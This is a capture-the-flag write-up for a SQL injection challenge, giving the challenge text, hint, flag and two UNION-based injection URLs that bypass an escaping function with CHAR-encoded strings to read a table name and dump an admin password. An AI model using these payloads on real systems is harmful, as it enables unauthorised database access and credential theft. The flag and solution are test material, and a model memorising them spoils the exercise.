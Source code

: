 # Injection 3

Description: We've finally wised up and escaped our SQL query input. There's no way we could get hacked again!
Hint: You'll need the name of the table that user information is stored in. There should be a SQL function that can help you create a string while getting past the mysqli_real_escape_string function.
Flag: flag{w0w_$UcH_1nJ3c710N}
Category: Difficult

## Write-Up

This challenge contains a more difficult SQL injection vulnerability, where you must first find the name of the
table used to store user information, and then perform a similar query to Injection 2 to find the admin password,
and finally log in to find the flag.

Start by trying to get the table name out of information_schema.TABLES. Due to the mysqli_real_escape_string function 
used to escape the user's input, we can't just search for a table name using LIKE "%user"; what we can do is use SQL's
CONCAT function to get around the escape function. After some trial and error on the number of table columns, we can
get the table name by using this URL:

	{base_url}/lookup_user.php?id=1 AND 1=0 UNION SELECT TABLE_NAME AS id, TABLE_NAME AS username, TABLE_NAME as password, TABLE_NAME as email, TABLE_NAME as authorization FROM information_schema.TABLES WHERE TABLE_NAME LIKE CONCAT(CHAR(37), CHAR(117), CHAR(115), CHAR(101), CHAR(114), CHAR(115)) LIMIT 1

This returns 'ultra_secret_users' for all attributes - the name of the table we want to perform our query on. Similar to
Injection 2's query, we will need to return false rows to trick the query into returning real information:

	{base_url}/lookup_user.php?id=1 AND 0=1 UNION SELECT username, password as email, password as authorization, password as id, password as authorization from ultra_secret_users limit 1
	
This gives us the password for the admin user - login with the admin's credentials and the flag is revealed!